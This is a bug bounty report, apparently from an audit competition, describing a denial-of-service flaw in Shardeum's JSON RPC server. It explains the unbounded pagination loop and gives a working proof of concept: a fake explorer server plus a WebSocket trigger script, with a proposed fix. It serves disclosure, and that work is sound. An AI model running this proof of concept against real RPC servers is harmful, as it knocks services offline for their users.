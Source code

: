 # #35996 \[W\&A-Insight] malicious explorer can cause denial of service in json rpc server and even cras

## #35996 \[W\&A-Insight] Malicious Explorer can cause Denial of Service in JSON RPC server and even crash it

**Submitted on Oct 15th 2024 at 12:14:14 UTC by @Blockian for** [**Audit Comp | Shardeum: Ancillaries II**](https://immunefi.com/audit-competition/shardeum-ancillaries-ii-boost)

* **Report ID:** #35996
* **Report Type:** Websites and Applications
* **Report severity:** Insight
* **Target:** https://github.com/shardeum/json-rpc-server/tree/dev
* **Impacts:**
  * Taking down the application/website

### Description

## Shardeum Ancillaries

### Malicious Explorer can cause Denial of Service in JSON RPC server and even crash it

#### Description

A vulnerability exists where a malicious explorer can cause the JSON RPC server to enter an infinite loop, eventually leading to denial of service (DoS) and a server crash due to memory exhaustion. The attack is triggered by manipulating the response of the \`getExplorerPendingTransactions\` function, forcing the server into a perpetual state of processing.

### Root Cause

The issue stems from the \`getExplorerPendingTransactions\` function: \`\`\`js async function getExplorerPendingTransactions(): Promise\<string\[]> { const explorerURL = config.explorerUrl const txHashes: string\[] = \[] let currentPage = 1 let hasMorePages = true

while (hasMorePages) { try { const response = await axios.get( \`${explorerURL}/api/originalTx?pending=true\&decode=true\&page=${currentPage}\` ) if (response.data.success) { response.data.originalTxs.forEach((tx: { txHash: string }) => { txHashes.push(tx.txHash) }) // If the current page has less than 10 transactions, it means we've reached the last page hasMorePages = response.data.originalTxs.length === 10 currentPage++ } else { hasMorePages = false } } catch (error) { console.log(error) hasMorePages = false } }

return txHashes } \`\`\` In this function, the loop continues to run as long as \`hasMorePages\` is true. A malicious explorer could manipulate the response by sending exactly 10 transactions per page, regardless of the page number, causing the loop to persist indefinitely. This exploit prevents the server from processing new requests and can ultimately crash the server due to memory overload.

### Impact

The vulnerability significantly affects the availability of the JSON RPC server. A malicious actor could trigger this flaw by continually sending the required number of transactions, leading to:

1. Denial of Service (DoS): The server becomes unresponsive, unable to process any further legitimate requests efficiently.
2. Memory Exhaustion: The \`txHashes\` array grows indefinitely as the server stores all transactions, leading to an eventual crash.

Although the impact is considered high, the requirement of the explorer to be malicious makes it, in my opinion, a medium.

But feel free to upgrade this issue's severity if you think differently \`;)\`

### Proposed fix

Limit the number of transactions the JSON RPC server is willing to receive from the \`explorer\` server, regardless if there are more of them.

### Proof of Concept

## Proof of Concept

We need to create a malicious \`explorer\` server and have it communicate with the JSON RPC server.

### Step 1

Create a new project with this \`package.json\`: \`\`\`json { "name": "tester", "version": "1.0.0", "description": "", "main": "index.js", "scripts": { "test": "echo \&quot;Error: no test specified\&quot; && exit 1" }, "author": "", "license": "ISC", "dependencies": { "express": "^4.21.1", "ws": "^8.18.0" } } \`\`\`

### Step 2

Add those two files:

server.js \`\`\`js const express = require('express'); const app = express(); const PORT = 6001;

const originalTxs = \[ { txHash: '' }, { txHash: '' }, { txHash: '' }, { txHash: '' }, { txHash: '' }, { txHash: '' }, { txHash: '' }, { txHash: '' }, { txHash: '' }, { txHash: '' }, ];

const sleep = ms => new Promise(r => setTimeout(r, ms));

app.get('/api/originalTx', async (req, res) => { await sleep(100)

res.json({ success: true, originalTxs: originalTxs, }); });

app.listen(PORT, () => { console.log(\`Explorer attacker server running on http://localhost:${PORT}\`); }); \`\`\`

main.js \`\`\`js const WebSocket = require('ws');

const wsUrl = 'ws://localhost:8080';

const ws = new WebSocket(wsUrl);

ws.on('open', function open() { console.log('Connected to WebSocket server');

const message = { jsonrpc: '2.0', id: 1, method: 'eth\_newPendingTransactionFilter', params: \[''] }; ws.send(JSON.stringify(message));

console.log('Message sent:', message); });

let counter = 0

ws.on('message', function incoming(data) { try { const readableData = JSON.parse(data.toString()); console.log('Received from server (parsed JSON):', readableData);

```
// start the attack
if (counter &#x3D;&#x3D;&#x3D; 0) {
  counter +&#x3D; 1 // this is so it won&#x27;t run this twice
  const message &#x3D; {
    jsonrpc: &#x27;2.0&#x27;,
    id: 1,
    method: &#x27;eth_getFilterChanges&#x27;,
    params: [readableData.result]
  };
  ws.send(JSON.stringify(message));
}
```

} catch (error) { console.log('Received from server (raw string):', data.toString()); } });

ws.on('error', function error(err) { console.error('WebSocket error:', err); });

ws.on('close', function close() { console.log('Connection to WebSocket server closed'); }); \`\`\`

### Step 3

Running the POC

1. Run the JSON RPC server
2. Run the \`server.js\` with \`node server.js\`
3. Execute the attack with the websocket script by running \`main.js\` with \`node main.js\`
4. Watch the JSON RPC server get stuck and the memory grows overtime

